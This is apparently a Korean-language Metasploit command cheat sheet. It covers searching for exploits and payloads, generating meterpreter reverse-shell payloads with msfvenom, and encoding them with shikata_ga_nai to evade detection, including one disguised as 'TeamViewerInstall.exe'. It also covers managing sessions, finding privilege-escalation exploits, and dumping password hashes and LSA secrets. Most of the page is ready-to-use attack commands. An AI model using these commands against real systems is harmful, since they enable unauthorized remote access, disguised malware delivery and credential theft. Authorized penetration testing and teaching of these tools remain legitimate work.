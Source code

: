 # MSF Components

### 모듈 검색
```msf6 > search <모듈명>```

### 특정 Exploit 모듈 검색
```msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft```

## 특정 Payload 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads```

### 특정 Payload 추가 명령 검색
```msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads```

### MSFVenom으로 Payload 생성 (예 : aspx)
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f aspx > reverse_shell.aspx```

### MSFVenom으로 Payload Encoding (예 : shikata_ga_nai)
```msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai```

### MSF에서 Payload Encoding
```msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders```

### 탐지 우회를 위한 반복 Encoding (약간의 효과)
```
(일반) msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 플러그인 추가 설치(예 : pentest)
```
git clone https://github.com/darkoperator/Metasploit-Plugins
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
msfconsole -q
msf > load pentest
```

### 추가 모듈 로딩 방법(3가지)
- ```msfconsole -m /usr/share/metasploit-framework/modules/```
- ```msf6> loadpath /usr/share/metasploit-framework/modules/```
- ```msf6 > reload_all```

### 인기 있는 플러그인
| [nMap (pre-installed)](https://nmap.org/)                                                                           | [NexPose (pre-installed)](https://sectools.org/tool/nexpose/)                                                                       | [Nessus (pre-installed)](https://www.tenable.com/products/nessus)                                               |
| ------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| [Mimikatz (pre-installed V.1)](http://blog.gentilkiwi.com/mimikatz)                                                 | [Stdapi (pre-installed)](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) | [Railgun](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| [Priv](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) | [Incognito (pre-installed)](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)                                 | [Darkoperator's](https://github.com/darkoperator/Metasploit-Plugins)                                            |

<br/><br/>
# MSF Sessions

### 활성 Session List
```msf6 exploit(windows/smb/psexec_psh) > sessions```

### 활성 Session 사용
```msf6 exploit(windows/smb/psexec_psh) > sessions -i 1```

### 백그라운드 Job으로 실행
```msf6 exploit(multi/handler) > exploit -j```

### 백그라운드 Job List
```msf6 exploit(multi/handler) > jobs -l```

### Meterpreter Session에서 MSF로 잠시 전환
```meterpreter > bg```

### Local Exploit Suggester로 권한 상승 exploit 테스트
```
msf6 > search local exploit suggester
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Meterpreter Session에서 Hash 추출 (SYSTEM 권한일 경우)
```meterpreter > hashdump```<br/>
```meterpreter > lsa_dump_sam```<br/>
```meterpreter > lsa_dump_secrets```
